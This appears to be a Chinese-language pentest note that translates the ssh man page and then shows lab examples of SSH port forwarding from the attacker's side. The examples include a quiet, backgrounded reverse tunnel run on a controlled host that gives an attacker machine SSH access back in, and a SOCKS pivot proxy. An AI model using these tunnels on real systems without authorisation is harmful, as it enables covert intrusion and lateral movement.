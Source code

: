 SSH隧道

ssh的命令解析：

ssh 用于登录远程主机, 并且在远程主机上执行命令. 它的目的是替换 rlogin 和 rsh, 同时在不安全的网络之上, 两个互不 信任的主机之间, 提供加密的, 安全的通信连接. X11 连接和任意 TCP/IP 端口均可以通过此安全通道转发(forward).当用户通过 连接并登录主机 hostname 后, 根据所用的协议版本, 用户必须通过下述方法之一向远程主机证明他/她的身份:

参数：

-a	禁止转发认证代理的连接

-A	允许转发认证代理的连接. 可以在配置文件中对每个主机单独设定这个参数。代理转发须谨慎. 某些用户能够在远程主机上绕过文件访问权限 (由于代理的 UNIX 域 socket), 他们可以通过转发的连接访问本地代理. 攻击者不可能从代理获得密钥内容, 但是他们能够操作这些密钥, 利用加载到代理上 的身份信息通过认证.

-b bind_address	在拥有多个接口或地址别名的机器上, 指定收发接口.

-c blowfish|3des|des	选择加密会话的密码术. 3des 是默认算法. 3des (triple-des) 用三支不同的密钥做加密-解密-加密三次运算, 被认为比较可靠. blowfish 是一种快速的分组加密术(block cipher), 非常安全, 而且速度比 3des 快的多. des 仅支持 客户端, 目的是能够和老式的不支持 3des 的协议第一版互操作. 由于其密码算法上的弱点, 强烈建议避免使用.

-c cipher_spec	另外, 对于协议第二版, 这里可以指定一组用逗号隔开, 按优先顺序排列的密码术. 详见 Ciphers

-e ch|^ch|none	设置 pty 会话的 escape 字符 (默认字符: `~' ) . escape 字符只在行首有效, escape 字符后面跟一个点 (`.' ) 表示结束连接, 跟一个 control-Z 表示挂起连接(suspend), 跟 escape 字符自己 表示输出这个字符. 把这个字符设为 ``none 则禁止 escape 功能, 使会话完全透明.

-f	要求 在执行命令前退至后台. 它用于当 准备询问口令或密语, 但是用户希望它在后台进行. 该选项隐含了 -n 选项. 在远端机器上启动 X11 程序的推荐手法就是类似于 ssh -f host xterm 的命令.

-g	允许远端主机连接本地转发的端口.

-i	identity_file
   指定一个 RSA 或 DSA 认证所需的身份(私钥)文件. 默认文件是协议第一版的 $HOME/.ssh/identity 以及协议第二版的 $HOME/.ssh/id_rsa 和 $HOME/.ssh/id_dsa 文件. 也可以在配置文件中对每个主机单独指定身份文件. 可以同时使用多个 -i 选项 (也可以在配置文件中指定多个身份文件).

-I	smartcard_device
   指定智能卡(smartcard)设备. 参数是设备文件, 能够用它和智能卡通信, 智能卡里面存储了用户的 RSA 私钥.

-k	禁止转发 Kerberos 门票和 AFS 令牌. 可以在配置文件中对每个主机单独设定这个参数.

-l login_name
   指定登录远程主机的用户. 可以在配置文件中对每个主机单独设定这个参数.

-m mac_spec
   另外, 对于协议第二版, 这里可以指定一组用逗号隔开, 按优先顺序排列的 MAC(消息验证码)算法 (message authentication code). 详情以 MACs 为关键字查询.

-n	把 stdin 重定向到 /dev/null (实际上防止从 stdin 读取数据). 在后台运行时一定会用到这个选项. 它的常用技巧是远程运行 X11 程序. 例如, ssh -n shadows.cs.hut.fi emacs 将会在 shadows.cs.hut.fi 上启动 emacs, 同时自动在加密通道中转发 X11 连接. 在后台运行. (但是如果 要求口令或密语, 这种方式就无法工作; 参见 -f 选项.)

-N	不执行远程命令. 用于转发端口. (仅限协议第二版)

-o option	可以在这里给出某些选项, 格式和配置文件中的格式一样. 它用来设置那些没有命令行开关的选项.

-p port	指定远程主机的端口. 可以在配置文件中对每个主机单独设定这个参数.

-q	安静模式. 消除所有的警告和诊断信息.

-s	请求远程系统激活一个子系统. 子系统是 SSH2 协议的一个特性, 能够协助 其他应用程序(如 sftp)把SSH用做安全通路. 子系统通过远程命令指定.

-t	强制分配伪终端. 可以在远程机器上执行任何全屏幕(screen-based)程序, 所以非常有用, 例如菜单服务. 并联的 -t 选项强制分配终端, 即使 没有本地终端.

-T	禁止分配伪终端.

-v	冗详模式. 使 打印关于运行情况的调试信息. 在调试连接, 认证和配置问题时非常有用. 并联的 -v 选项能够增加冗详程度. 最多为三个.

-x	禁止 X11 转发.

-X	允许 X11 转发. 可以在配置文件中对每个主机单独设定这个参数.
   应该谨慎使用 X11 转发. 如果用户在远程主机上能够绕过文件访问权限 (根据用户的X授权数据库), 他就可以通过转发的连接访问本地 X11 显示器. 攻击者可以据此采取行动, 如监视键盘输入等.

-C	要求进行数据压缩 (包括 stdin, stdout, stderr 以及转发 X11 和 TCP/IP 连接 的数据). 压缩算法和 gzip(1) 的一样, 协议第一版中, 压缩级别 ``level 用 CompressionLevel 选项控制. 压缩技术在 modem 线路或其他慢速连接上很有用, 但是在高速网络上反而 可能降低速度. 可以在配置文件中对每个主机单独设定这个参数. 另见 Compression 选项.

-F configfile	指定一个用户级配置文件. 如果在命令行上指定了配置文件, 系统级配置文件 (/etc/ssh/ssh_config ) 将被忽略. 默认的用户级配置文件是 $HOME/.ssh/config

-L port:host:hostport	 将本地机(客户机)的某个端口转发到远端指定机器的指定端口. 工作原理是这样的, 本地机器上分配了一个 socket 侦听 port 端口, 一旦这个端口上有了连接, 该连接就经过安全通道转发出去, 同时远程主机和 host 的 hostport 端口建立连接. 可以在配置文件中指定端口的转发. 只有 root 才能转发特权端口. IPv6 地址用另一种格式说明: port/host/hostport

-R port:host:hostport	将远程主机(服务器)的某个端口转发到本地端指定机器的指定端口. 工作原理是这样的, 远程主机上分配了一个 socket 侦听 port 端口, 一旦这个端口上有了连接, 该连接就经过安全通道转向出去, 同时本地主机和 host 的 hostport 端口建立连接. 可以在配置文件中指定端口的转发. 只有用 root 登录远程主机 才能转发特权端口. IPv6 地址用另一种格式说明: port/host/hostport

-D port	指定一个本地机器 ``动态的 应用程序端口转发. 工作原理是这样的, 本地机器上分配了一个 socket 侦听 port 端口, 一旦这个端口上有了连接, 该连接就经过安全通道转发出去, 根据应用程序的协议可以判断出远程主机将和哪里连接. 目前支持 SOCKS4 协议, 将充当 SOCKS4 服务器. 只有 root 才能转发特权端口. 可以在配置文件中指定动态端口的转发.

-1	 强制 只使用协议第一版.

-2	强制 只使用协议第二版.

-4	强制 只使用 IPv4 地址.

-6	强制 只使用 IPv6 地址.

拓扑图![image-20210504173305049](../acess/image-20210504173305049.png)

**正向连接**

WEB服务器(192.168.31.130)执行

```bash
ssh -CNfL 0.0.0.0:7777:192.168.31.130:80 root@192.168.31.130
```

攻击者浏览器访问

http://192.168.31.130:7777

**反向连接**（192.168.31.130）

ssh -qTfnN -R port:host:hostport  remote_ip

受控端

```bash
ssh -qTfnN -R 2222:127.0.0.1:22  root@192.168.31.150
```

攻击端

```bash
ssh -p 2222 root@127.0.0.1
```

**ssh sockets代理**

ssh -qTfnN -D port remotehost

```bash
ssh -qTfnN -D 1111 192.168.31.150
```

